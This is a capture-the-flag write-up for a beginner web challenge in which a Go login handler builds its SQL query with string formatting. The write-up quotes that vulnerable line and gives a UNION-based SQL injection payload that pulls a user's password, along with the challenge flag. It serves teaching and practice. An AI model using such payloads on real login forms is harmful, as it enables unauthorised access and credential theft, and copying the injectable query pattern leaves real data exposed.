

## What's My Password? (Web)

## Problem

[baby] Oh no! Skat forgot their password (again)!
 
Can you help them find it?



## Solution

### setup.sql

From `setup.sql` we know that flag is stored as a password for user `skat`:
```sql
CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");
```

### main.go

In `main.go`, there is an SQL Injection vulnerability in line 65:

```go
qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```

To obtain the flag, we can use following payload as password:

```
password" or 1=2 union select username,password from users where username="skat"-- - 
```

Flag: `irisctf{my_p422W0RD_1S_SQl1}`
